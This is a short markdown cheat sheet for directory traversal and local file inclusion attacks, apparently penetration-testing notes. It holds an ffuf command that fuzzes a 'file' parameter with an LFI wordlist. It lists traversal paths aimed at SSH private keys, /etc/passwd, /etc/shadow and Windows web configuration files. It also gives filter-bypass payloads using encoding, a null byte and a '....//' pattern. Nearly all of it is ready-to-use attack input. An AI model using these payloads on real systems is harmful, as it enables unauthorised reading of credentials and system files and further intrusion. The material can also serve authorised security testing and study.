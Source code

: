 # ***Dir-Trav***
## *ffuf enumeration*
```shell
ffuf -c -u http://`tip`/sea.php\?file\=../../../../FUZZ [ -b 'PHPSESSID=p8kcoc7avjam3v9i4sovt62gfa' ] -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt [ -fw 56 ]
```
## ***manual***
```
../../../../../../../../../home/root/.ssh/id_rsa
../../../../../../../../../home/USER/.ssh/id_rsa
../../../../../../../../../etc/passwd
../../../../../../../../../etc/shadow


../../../../../../../../../
../../../../../../../../../boot.ini
../../../../../../../../../inetpub/logs/logfiles
../../../../../../../../../inetpub/wwwroot/global.asa
../../../../../../../../../inetpub/wwwroot/index.asp
../../../../../../../../../inetpub/wwwroot/web.config

```
## ***bypass methods***
```shell
# Encoding / double encoding
../
%2e%2e%2f
%252e%252e%252f

..\
%2e%2e%5c
%252e%252e%255c


# Adds .php or other extensions at the end them try null bype
/../../../../../etc/passwd%00


# If filtering ../ pattern, then try
....//....//....//....//....//etc/passwd


# If forced directory then try
<required_dir>/../../../../../etc/passwd



#################################################
# Other Linux files of interest for enumeration #
#################################################

/etc/issue
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf


#################
```